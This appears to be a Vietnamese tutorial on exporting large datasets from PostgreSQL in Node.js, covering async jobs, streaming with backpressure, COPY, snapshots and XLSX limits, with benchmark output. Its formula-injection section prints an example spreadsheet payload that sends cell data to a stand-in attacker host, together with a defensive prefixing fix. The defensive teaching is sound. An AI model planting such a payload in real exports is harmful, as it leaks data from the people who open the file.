


## Bối cảnh & vấn đề

Nút "Export orders to CSV" chạy ngon trong demo. Tenant nhỏ có 3.000 đơn, file ra trong một giây. Rồi một khách hàng lớn bấm nút: trình duyệt quay 60 giây, nhận **504 Gateway Timeout**. Khách bấm lại hai lần nữa. Mười phút sau, pod API restart với lý do **OOMKilled**, kéo theo mọi request khác đang chạy trên pod đó. Log DB cho thấy ba query giống hệt nhau vẫn đang chạy, dù client đã bỏ đi từ lâu.

Đây là hai lỗi khác nhau xuất hiện cùng lúc. **504** là chuyện thời gian: request đồng bộ dài hơn idle timeout của load balancer (ALB mặc định 60 giây, API Gateway REST mặc định 29 giây, verify cho cấu hình của bạn). LB cắt kết nối phía client, nhưng server **không biết** và vẫn chạy tiếp, nên mỗi lần bấm lại là thêm một export chạy song song. **OOMKilled** là chuyện bộ nhớ: code `findMany()` toàn bộ row vào mảng rồi `join("\n")` thành một string, nên memory tỉ lệ với số row, và mỗi row trong JS tốn gấp nhiều lần kích thước thật của nó.

Bài này là playbook cho họ câu hỏi "export dữ liệu lớn": từ cách sửa nhanh (async + stream) tới thiết kế một export platform cho SaaS nhiều tenant. Nền tảng về Node stream nằm ở [Buffers & streams](/tracks/nodejs/learn/buffers-streams) và [Stream pipelines](/tracks/nodejs/learn/stream-pipelines); thiết kế API job bất đồng bộ nằm ở [Async & bulk API](/tracks/api-design/learn/async-bulk-uploads); phía file/download có ở [Download, range & export](/tracks/scenario-files/learn/download-range-export). Ở đây ta tập trung vào phần **dữ liệu**: đọc từ Postgres thế nào, giữ memory phẳng ra sao, nhất quán tới đâu, và cái gì vỡ.

Lab của bài: PostgreSQL 18.6 trong Docker (`shared_buffers` 256 MB), bảng `orders` 2 triệu row (357 MB kèm index), tenant 42 chiếm 800.000 row; Node 24.21. Máy là laptop dùng chung nên thời gian dao động mạnh giữa các lần chạy; **memory** và **tỉ lệ** mới là thứ đáng tin.

**Interview angle:** interviewer chờ bạn tách được hai triệu chứng thành hai nguyên nhân, và nói được vì sao "tăng LB timeout lên 10 phút" là fix tệ: kết nối dài vẫn đứt khi deploy, client retry vẫn nhân đôi job, và pod API vẫn phải giữ memory/connection DB cho một việc không thuộc request path.

## Khái niệm

### Async export job

**Async job** tách "yêu cầu export" khỏi "làm export". `POST /exports` chỉ ghi một row vào `export_jobs`, đẩy job id vào queue và trả **202 Accepted** kèm `Location: /exports/{id}`. Worker riêng (không phải pod API) làm việc nặng, ghi file lên S3 và cập nhật trạng thái. Client poll `GET /exports/{id}` hoặc nhận email/webhook, rồi tải bằng **presigned URL** ngắn hạn.

Lý do thiết kế như vậy: request HTTP có timeout, có retry, có deploy cắt ngang; còn job export có thể kéo dài 40 phút. Gắn hai vòng đời khác nhau vào một kết nối TCP là gốc của mọi rắc rối. Ví dụ: tenant nhỏ (dưới 10k row) vẫn có thể stream trực tiếp trong request vì xong trong vài giây; tenant lớn đi lane async.

### Stream và backpressure

**Stream** xử lý dữ liệu theo từng mảnh (chunk) thay vì cả khối: đọc 1.000 row, biến thành CSV, nén, đẩy lên S3, rồi mới đọc tiếp. Memory tỉ lệ với **kích thước buffer**, không tỉ lệ với số row. **Backpressure** là cơ chế để consumer chậm (S3 upload) báo cho producer nhanh (DB) dừng lại: `writable.write()` trả `false` khi buffer nội bộ vượt `highWaterMark`, và producer phải chờ sự kiện `'drain'`.

Backpressure không tự xảy ra. `pipeline()` và `pipe()` tôn trọng nó; còn `on("data", row => w.write(...))` bỏ qua giá trị trả về của `write()`, nên dữ liệu dồn vào RAM. `highWaterMark` mặc định là 16 KiB với byte stream và **16 object** với object-mode stream (verify theo phiên bản Node; Node 22+ đổi default của byte stream lên 64 KiB).

### Server-side cursor, keyset batch và COPY

Có ba cách đọc 20 triệu row từ Postgres trong Node:

- **Server-side cursor** (`pg-query-stream`, bên dưới là `DECLARE ... CURSOR` + `FETCH 1000`): một query, một snapshot, đọc dần theo batch. Phải giữ **một connection và một transaction** suốt job.
- **Keyset batch**: `WHERE id > $last ORDER BY id LIMIT 10000`, mỗi batch là một query độc lập. Trả connection giữa các batch và **resume** được từ `last`. Cái giá: mỗi batch thấy một snapshot khác nhau.
- **`COPY (SELECT ...) TO STDOUT`** (`pg-copy-streams`): server tự format CSV (escape chuẩn) và đẩy byte qua wire protocol; app chỉ chuyển byte, không parse row. Nhanh nhất, nhưng khó can thiệp từng row.

Ví dụ: file thô cho data team → COPY; export có mask PII và cần resume → keyset; export ngắn cần snapshot tuyệt đối → cursor.

### COPY TO file vs COPY TO STDOUT

`COPY orders TO '/tmp/orders.csv'` được **server Postgres** thực thi, nên file nằm trên **filesystem của máy DB**, không phải container app. Nó cần quyền `pg_write_server_files` (hoặc superuser), và managed DB như RDS/Cloud SQL không cho chạm vào filesystem đó. Từ app luôn dùng `COPY ... TO STDOUT` (hoặc `\copy` của psql, chạy phía client). MySQL tương tự: `SELECT ... INTO OUTFILE` ghi trên máy DB và bị `secure_file_priv` giới hạn.

### Snapshot nhất quán

Mỗi transaction trong Postgres đọc qua một **snapshot** (MVCC): tập transaction đã commit mà nó được thấy. Export bằng 3.000 keyset batch là 3.000 snapshot; row bị update hay chuyển trạng thái giữa hai batch có thể bị đếm hai lần hoặc sót. Muốn một **điểm thời gian** duy nhất: chạy trong một transaction `REPEATABLE READ READ ONLY`, và để song song hoá thì dùng `pg_export_snapshot()` + `SET TRANSACTION SNAPSHOT` (đúng cách `pg_dump -j` làm). Nền tảng ở [Isolation levels](/tracks/sql-postgres/learn/isolation-levels) và [MVCC & VACUUM](/tracks/sql-postgres/learn/mvcc-vacuum).

### XLSX streaming

File `.xlsx` là một **zip chứa các file XML** (mỗi sheet một XML, cộng `sharedStrings.xml`). Thư viện kiểu "tạo workbook trong RAM rồi `writeBuffer()`" sẽ OOM với file lớn. **Streaming writer** (exceljs `stream.xlsx.WorkbookWriter`) ghi từng row đã `commit()` thẳng ra stream. Giới hạn cứng của Excel: **1.048.576 row × 16.384 cột mỗi sheet**.

### CSV/formula injection

Khi người khác mở CSV bằng Excel/Sheets, ô bắt đầu bằng `=`, `+`, `-`, `@`, tab hoặc CR được hiểu là **công thức**. Kẻ tấn công đặt tên công ty là `=HYPERLINK("http://evil.example/?d="&A1,"Click")`; kế toán mở file, bấm link, và dữ liệu ô A1 bay ra ngoài. File do **hệ thống bạn** phát hành, nên đây là lỗi của bạn. Cách chặn theo OWASP: prefix `'` cho ô text bắt đầu bằng các ký tự đó, đồng thời escape CSV chuẩn.

**Interview angle:** phân biệt "stream" với "có backpressure" là chỗ interviewer đào sâu nhất. Nhiều người dùng stream nhưng vẫn leak memory vì tự ghi tay.

## Cơ chế hoạt động

### Luồng export bất đồng bộ



Đọc sơ đồ theo ba lớp trách nhiệm. **API** chỉ làm việc rẻ và idempotent: unique `(tenant_id, idempotency_key)` làm cho bấm hai lần trả cùng một job. **Worker** làm việc dài, nhận job qua queue có giới hạn đồng thời theo tenant, giữ **lease** (có heartbeat) để hai worker không cùng chạy một job. **Checkpoint** sau mỗi part S3 cho phép job bị deploy giết ở 70% tiếp tục từ 70%, không phải từ 0.

### Backpressure trong pipeline



Khi S3 chậm, buffer của `Upload` đầy, `write()` vào nó trả `false`. `pipeline()` thấy vậy thì ngừng đọc từ gzip; buffer của gzip đầy thì ngừng đọc từ transform; cuối cùng `pg-query-stream` ngừng gửi `FETCH` tiếp theo. Mỗi tầng chỉ giữ tối đa khoảng `highWaterMark` dữ liệu, nên memory tổng bị chặn trên bởi tổng các buffer, cộng `partSize × queueSize` (32 MiB) của upload. Đây là lý do memory **không phụ thuộc** số row.

`pipeline()` còn làm việc thứ hai: khi bất kỳ stream nào lỗi, nó **destroy tất cả** và reject promise. Không có nó, upload lỗi thì DB stream treo, connection không được release, pool cạn dần.

### Cái giá của snapshot dài

Transaction `REPEATABLE READ` chạy 90 phút giữ **xmin** của nó. VACUUM không được dọn dead tuple nào mới hơn xmin đó, trên **toàn cluster**, nên bảng nóng phình ra suốt thời gian export. Chạy trên replica thì đổi sang vấn đề khác: replay WAL muốn xoá tuple mà query đang cần, nên sau `max_standby_streaming_delay` (mặc định 30 giây) query bị huỷ với lỗi "canceling statement due to conflict with recovery". Bật `hot_standby_feedback` thì replica báo xmin về primary, và bloat lại quay về primary. Chi tiết ở [Replication & scaling](/tracks/sql-postgres/learn/replication-scaling).

**Interview angle:** vẽ được sơ đồ đầu và nói rõ "API rẻ và idempotent, worker dài và resumable" là đủ khung cho câu design 022.

## Ví dụ thực tế

### Naive vs stream vs COPY: đo memory

Ba cách export tenant 42 (800.000 row) ra file `.csv.gz`, đo peak RSS bằng cách lấy mẫu `process.memoryUsage().rss` mỗi 20 ms:

```ts
// export-bench.mjs (rút gọn)
const SQL = "SELECT id, created_at, status, total, email, note FROM orders WHERE tenant_id = 42 ORDER BY id";
if (mode === "naive") {
  const { rows } = await client.query(SQL);
  const csv = ["id,created_at,...", ...rows.map(r => `${r.id},${r.created_at.toISOString()},...`)].join("\n");
  await pipeline([csv], createGzip(), createWriteStream(out));
} else if (mode === "stream") {
  const rows = client.query(new QueryStream(SQL, [], { batchSize: 1000 }));
  await pipeline(rows, stringify({ header: true, columns }), createGzip(), createWriteStream(out));
} else {
  const src = client.query(copyTo(`COPY (${SQL}) TO STDOUT WITH (FORMAT csv, HEADER)`));
  await pipeline(src, createGzip(), createWriteStream(out));
}
```

```text
naive   rows=800000   time=3.5s   peakRSS=909 MB   gz=10.9 MB
stream  rows=800000   time=9.8s   peakRSS=189 MB   gz=11.0 MB
copy    rows=800000   time=1.0s   peakRSS=70 MB    gz=10.9 MB

naive   rows=2000000  time=9.3s   peakRSS=1953 MB  gz=28.5 MB
stream  rows=2000000  time=48.3s  peakRSS=188 MB   gz=28.9 MB
copy    rows=2000000  time=5.5s   peakRSS=67 MB    gz=28.7 MB
```

Ba điều đọc ra được. Thứ nhất, naive **tuyến tính theo số row**: 909 MB rồi 1.953 MB, trong khi dữ liệu thô của tenant 42 chỉ khoảng 72 MB. Hệ số hơn 10 lần đến từ object JS cho mỗi row, `Date`, string của từng cột, mảng các dòng, rồi string `join` cuối. Với pod limit 1 GiB, tenant 2 triệu row là OOMKilled. Thứ hai, stream và COPY **phẳng**: 2,5 lần số row nhưng memory không đổi. Thứ ba, COPY nhanh hơn stream nhiều lần vì không parse row thành object JS rồi stringify lại; server format CSV bằng C. Thời gian stream dao động mạnh giữa các lần chạy (9,8 s và 29 s cho cùng 800k row) vì máy lab dùng chung.

Còn một giới hạn cứng nữa của naive: V8 giới hạn độ dài string. Trên Node 24 của lab:

```text
> require("buffer").constants.MAX_STRING_LENGTH
536870888            // ~512 Mi ký tự
> "x".repeat(536870889)
RangeError: Invalid string length
```

Export 2 triệu row × 300 byte (600 MB) bằng `join` sẽ chết vì `Invalid string length` ngay cả khi pod có 8 GB RAM. Đó là lý do `--max-old-space-size=8192` không phải fix.

### Bug backpressure: stream mà vẫn leak

Giả lập S3 chậm bằng một `Writable` mất 2 ms cho mỗi chunk 16 KB, so sánh code ghi tay và `pipeline()`:

```ts
// BUG: bỏ qua giá trị trả về của write()
db.on("data", row => { gzip.write(toCsvLine(row)); });
db.on("end", () => gzip.end());
gzip.pipe(slowSink());

// FIX
const toCsv = new Transform({ writableObjectMode: true, transform(row, _e, cb) { cb(null, toCsvLine(row)); } });
await pipeline(db, toCsv, createGzip(), slowSink());
```

```text
bug      time=36.2s  peakRSS=251 MB  max gzip.writableLength=31.3 MB
pipeline time=32.0s  peakRSS=116 MB  max gzip.writableLength=0.1 MB
```

Với bản bug, `gzip.writableLength` lên tới 31,3 MB: gần như **toàn bộ** CSV của 800k row nằm trong buffer ghi của gzip, chờ sink chậm xử lý. DB đọc nhanh hơn S3 bao nhiêu thì memory tăng bấy nhiêu; với 20 triệu row và S3 nghẽn, đó là vài GB. Bản `pipeline()` giữ buffer ở 0,1 MB. Tổng thời gian gần như nhau, vì nút cổ chai vẫn là sink: backpressure không làm chậm job, nó chỉ ngăn **dữ liệu chờ** chất đống trong RAM. Nếu phải ghi tay (ví dụ chia file theo kích thước), dùng `if (!w.write(chunk)) await once(w, "drain")`.

### COPY TO file và tham số

```text
$ psql -U app -c "COPY orders TO '/tmp/orders.csv' CSV HEADER;"
ERROR:  permission denied to COPY to a file
DETAIL:  Only roles with privileges of the "pg_write_server_files" role may COPY to a file.
HINT:  Anyone can COPY to stdout or from stdin. psql's \copy command also works for anyone.

$ psql -U postgres -c "COPY (SELECT ...) TO '/tmp/orders.csv' CSV HEADER;"   -- superuser
COPY 3
$ docker exec pg ls /tmp/orders.csv     → có (máy DB)
$ ls /tmp/orders.csv                    → No such file or directory (máy app)
```

Thông báo lỗi của Postgres 18 đã chỉ luôn cách đúng. Câu follow-up kinh điển: `COPY` **không nhận bind parameter** cho query bên trong. Lab:

```text
COPY (SELECT id FROM orders WHERE tenant_id = $1) TO STDOUT   với values [42]
→ error: there is no parameter $1
```

Cách an toàn: validate kiểu ở app (tenant id phải là số nguyên) rồi quote bằng hàm của driver, `pg.escapeLiteral` (hoặc `format('%L', ...)` phía server). Kết quả lab:

```text
COPY (SELECT id, total FROM orders WHERE tenant_id = '42' ORDER BY id LIMIT 3) TO STDOUT WITH (FORMAT csv, HEADER)
id,total
1,431.30
5,435.72
6,363.71
```

Một lựa chọn khác là tạo `TEMP VIEW` hoặc hàm SQL có tham số, rồi `COPY (SELECT * FROM export_orders(42))`. Không bao giờ nối string input của user vào COPY. Nền tảng injection ở [Injection](/tracks/web-security/learn/injection).

### Snapshot dùng chung giữa các worker

```ts
await q(coord, "BEGIN ISOLATION LEVEL REPEATABLE READ READ ONLY");
const [{ snap }] = await q(coord, "SELECT pg_export_snapshot() AS snap");
// app ghi trong lúc export chạy
await q(app, "UPDATE orders SET total = total + 1000 WHERE tenant_id = 8 AND id < 1000000");
await q(app, "INSERT INTO orders(...) VALUES (8, now(), 'paid', 99999, ...)");
for (const w of [w1, w2]) {
  await q(w, "BEGIN ISOLATION LEVEL REPEATABLE READ READ ONLY");
  await q(w, `SET TRANSACTION SNAPSHOT '${snap}'`);
}
```

```text
before             { n: 2000, s: '493288.26' }
exported snapshot  00000019-00000002-1
worker1 (snapshot) { n: 2000, s: '493288.26' }
worker2 (snapshot) { n: 2000, s: '493288.26' }
new txn (now)      { n: 2001, s: '1593287.26' }
oldest backend_xmin held: 773
after coordinator commit: snapshot "00000019-00000002-1" does not exist
```

Hai worker thấy đúng số liệu tại thời điểm export bắt đầu, dù app đã update và insert sau đó. Mỗi worker có thể `COPY` một khoảng id khác nhau và tổng của chúng khớp tuyệt đối. Dòng cuối là ràng buộc vận hành: snapshot chỉ tồn tại khi **transaction coordinator còn mở**; coordinator chết thì worker mới không vào được. Và `backend_xmin` bị giữ suốt thời gian đó, với cái giá đã nói ở phần cơ chế.

### XLSX: chia sheet và shared strings

Export 1,1 triệu row bằng exceljs streaming writer, tự chia sheet khi chạm giới hạn:

```ts
const MAX = 1_048_576 - 1;                       // trừ dòng header
const wb = new ExcelJS.stream.xlsx.WorkbookWriter({ stream: out, useSharedStrings: shared });
let sheet = 0, n = MAX, ws;
for await (const r of rows) {
  if (n === MAX) { ws?.commit(); ws = wb.addWorksheet(`orders-${++sheet}`); ws.addRow(HEADER).commit(); n = 0; }
  ws.addRow([Number(r.id), r.created_at, r.status, r.total, r.email, safeCell(r.note)]).commit(); n++;
}
ws.commit(); await wb.commit();
```

```text
useSharedStrings=false  sheets=2  time=13.8s  peakRSS=291–549 MB (2 lần chạy)  size=46.0 MB
useSharedStrings=true   sheets=2  time=13.0s  peakRSS=1854 MB                  size=52.8 MB
```

`useSharedStrings: true` buộc writer giữ **bảng mọi string duy nhất** trong RAM tới cuối (vì `sharedStrings.xml` chỉ được ghi khi commit workbook). Với cột email/note gần như unique, bảng đó lớn bằng chính dữ liệu: 1,85 GB. Tắt nó thì string ghi inline vào XML của từng sheet, memory chặn được. Lưu ý thêm: file 46 MB nén chứa 346 MB XML; người dùng mở 1,1 triệu row trong Excel rất chậm, nên luôn hỏi lại mục đích thật (pivot? nạp vào tool khác?) và đề nghị CSV khi vượt 1 triệu row.

### Chặn formula injection

```ts
const DANGER = /^[=+\-@\t\r]/;
const safeCell = (v: unknown) => (typeof v === "string" && DANGER.test(v) ? `'${v}` : v);
```

```text
RAW:
company,balance
"=HYPERLINK(""http://evil.example/?d=""&A1,""Click"")",-12.5
@SUM(1+1),0
SAFE:
company,balance
"'=HYPERLINK(""http://evil.example/?d=""&A1,""Click"")",-12.5
'@SUM(1+1),0
```

Thư viện CSV đã escape đúng dấu phẩy, ngoặc kép và xuống dòng, nhưng **không** chặn công thức: đó là việc của bạn. Chỉ áp dụng cho **cột text**; cột số `-12.5` giữ nguyên kiểu để không phá dữ liệu. Làm ở lớp export, không sửa dữ liệu trong DB. Với COPY (không can thiệp từng row được), áp dụng bằng SQL: `CASE WHEN note ~ '^[=+\-@\t\r]' THEN '''' || note ELSE note END`. JSON qua API thì không cần, vì không có ứng dụng nào "thực thi" chuỗi JSON như công thức; rủi ro chỉ nảy sinh khi ai đó chuyển JSON đó thành bảng tính.

**Interview angle:** câu behavioral 059 cần đúng loại con số như trên: "memory 1,9 GB → 70 MB, thời gian X → Y, đo bằng gì". Không có số thì câu chuyện mất điểm.

## Trade-offs & lựa chọn thay thế

| Cách đọc | Tốc độ | Memory app | Transform từng row | Resume | Snapshot | Giữ gì trên DB |
|---|---|---|---|---|---|---|
| `findMany` + join | Nhanh khi nhỏ | O(n), OOM | Dễ | Không | Một query | Ngắn |
| Cursor stream (`pg-query-stream`) | Trung bình | Phẳng | Dễ | Không | Một snapshot | 1 connection + 1 transaction suốt job |
| Keyset batch | Trung bình | Phẳng | Dễ | Có (checkpoint) | Mỗi batch một snapshot | Transaction ngắn |
| `COPY TO STDOUT` | Nhanh nhất | Phẳng | Chỉ bằng SQL | Theo khoảng id | Một snapshot | 1 statement dài |
| Snapshot export + N worker COPY | Nhanh, song song | Phẳng | Bằng SQL | Theo khoảng | Một snapshot chung | xmin suốt job |
| DB clone/snapshot riêng | Không ảnh hưởng prod | Phẳng | Tuỳ | Có | Tuyệt đối | Không (DB khác) |

Chọn theo **yêu cầu thật**. File thô cho data team, không cần mask: COPY trên replica. Export có mask PII theo role, cần resume khi deploy: keyset batch + transform trong Node. Finance cần số khớp tuyệt đối: trước hết hỏi lại định nghĩa "khớp". Nếu dữ liệu là ledger append-only, `created_at < as_of` là đủ nhất quán và rẻ nhất. Nếu dữ liệu mutable và job ngắn, một transaction `REPEATABLE READ` trên replica chuyên cho batch. Job khổng lồ (50 triệu row, vài giờ) thì export từ **clone** (Aurora clone, restore snapshot) để không giữ xmin của production.

Về format: CSV là mặc định cho dữ liệu lớn; XLSX chỉ cho file vừa người đọc mở được, và tự chuyển sang CSV khi ước lượng vượt 1 triệu row. Về nơi chạy: lane nhỏ (dưới 10k row, ước lượng từ `EXPLAIN`) stream thẳng trong request; lane lớn qua queue với worker riêng.

## Edge cases & failure modes

- **Deploy giết worker ở 70%**: với cursor dài thì bắt đầu lại từ 0. Cần keyset batch + checkpoint `last_key`, `upload_id` và danh sách `ETag` của các part S3; khi redeliver thì tiếp tục multipart upload. Graceful shutdown: SIGTERM → ngừng nhận batch mới, flush part hiện tại, lưu checkpoint ([Graceful shutdown](/tracks/nodejs/learn/graceful-shutdown)).
- **Gzip không resume được từ giữa**: gzip là một stream nén liên tục. Nhưng chuẩn gzip cho phép **nối nhiều member**: mỗi part nén độc lập thành một gzip member, ghép lại vẫn là file gzip hợp lệ. Vậy checkpoint theo ranh giới part là resume được.
- **Giới hạn S3 multipart**: part tối thiểu 5 MiB (trừ part cuối), tối đa 10.000 part, object tối đa 5 TiB (verify). Part 8 MiB → trần khoảng 80 GB; export lớn hơn phải tăng `partSize`.
- **Multipart dở dang**: part đã upload mà không complete vẫn tính tiền. Lifecycle rule `AbortIncompleteMultipartUpload` (ví dụ 1 ngày) là bắt buộc.
- **Queue redeliver + user bấm hai lần**: unique `(tenant_id, idempotency_key)` hoặc hash `(tenant, filter, as_of)`; lease có heartbeat để hai worker không cùng ghi một job. Đừng tin "exactly-once" của queue. Xem [Idempotency](/tracks/api-design/learn/idempotency).
- **Thứ Hai 9 giờ, 50 tenant cùng export**: primary 95% CPU, replica lag 40 giây. Ngay: tắt bớt worker bằng feature flag, `pg_cancel_backend` các query export trên primary, ưu tiên checkout. Tuần sau: replica riêng cho batch, global concurrency + **per-tenant limit**, `statement_timeout`/`work_mem` riêng cho role export, cache file theo `(filter, as_of)`. BullMQ/SQS không có per-group limit sẵn: tự làm bằng semaphore Redis theo tenant, hoặc bảng `export_jobs` với `SELECT ... FOR UPDATE SKIP LOCKED` lọc tenant đang chạy. Xem [Noisy neighbor](/tracks/multi-tenancy/learn/noisy-neighbor).
- **Replica huỷ query sau 30 giây**: "conflict with recovery" do `max_standby_streaming_delay`. Các lựa chọn: replica riêng cho batch với delay lớn (chấp nhận lag replay), bật `hot_standby_feedback` (bloat về primary), hoặc keyset batch ngắn (mỗi query dưới 30 giây).
- **Encoding**: Excel trên Windows đọc CSV UTF-8 không có BOM thành chữ lỗi với tiếng Việt; thêm BOM `` ở đầu file nếu người dùng chính là Excel. Excel còn tự đổi `00123` thành `123`, số dài thành số mũ.
- **Presigned URL lộ**: URL bị forward qua email là ai cũng tải được tới khi hết hạn. Hết hạn ngắn (15 phút), cấp lại khi bấm tải, audit ai tải gì.

## Pitfalls

- ❌ Tăng LB timeout và pod memory → ✅ async job + stream. Timeout dài vẫn đứt khi deploy, và memory tuyến tính theo số row thì không có limit nào đủ.
- ❌ `--max-old-space-size=8192` → ✅ đổi thuật toán. String vẫn bị V8 giới hạn ~512 Mi ký tự.
- ❌ `on("data")` + `write()` tay → ✅ `pipeline()`; hoặc `await once(w, "drain")` khi `write()` trả `false`.
- ❌ Phân trang export bằng `OFFSET` trong worker → ✅ keyset theo PK; OFFSET làm job O(n²) (xem [pagination](/tracks/scenario-data/learn/pagination-playbook)).
- ❌ `COPY ... TO '/tmp/x.csv'` từ app, hoặc grant superuser cho role app → ✅ `COPY ... TO STDOUT` + `pg-copy-streams`.
- ❌ Nối input vào câu COPY → ✅ validate kiểu + `escapeLiteral`/`format('%L')`, hoặc hàm SQL có tham số.
- ❌ Chạy export trên primary dùng chung với checkout → ✅ replica riêng cho batch, concurrency theo tenant.
- ❌ Một transaction `SERIALIZABLE` 90 phút "cho chắc" → ✅ định nghĩa `as_of`, ledger append-only, hoặc clone; transaction dài giữ xmin toàn cluster.
- ❌ CSV chỉ escape dấu phẩy → ✅ thư viện CSV + prefix `'` cho ô text nguy hiểm.
- ❌ `useSharedStrings: true` với dữ liệu unique → ✅ tắt shared strings khi stream XLSX.

## Tóm tắt

- 504 và OOMKilled là hai lỗi: timeout của request đồng bộ và memory tuyến tính theo số row. Sửa bằng **async job** (202 + job id + presigned URL) và **stream**.
- Lab 2 triệu row: naive 1.953 MB RSS, stream 188 MB, COPY 67 MB và nhanh nhất; naive còn chết vì giới hạn string V8.
- Backpressure chỉ có khi dùng `pipeline()`/`pipe()` hoặc tự chờ `'drain'`; ghi tay bằng `on("data")` làm 31 MB dồn trong buffer gzip của lab.
- Cursor stream = một snapshot nhưng không resume; keyset = resume nhưng nhiều snapshot; COPY = nhanh nhất, transform bằng SQL, không nhận bind parameter.
- `COPY TO 'file'` ghi trên máy DB; từ app dùng `COPY TO STDOUT`.
- Nhất quán: `REPEATABLE READ` + `pg_export_snapshot()` cho nhiều worker; cái giá là xmin bị giữ (bloat) hoặc conflict trên replica. Thường rẻ hơn khi định nghĩa `as_of` trên dữ liệu bất biến.
- XLSX: tối đa 1.048.576 row/sheet, streaming writer, tắt shared strings; chặn formula injection bằng prefix `'` cho cột text.
- Platform: idempotent job, lease + checkpoint + multipart resume, lifecycle dọn part rác, per-tenant concurrency, replica riêng.
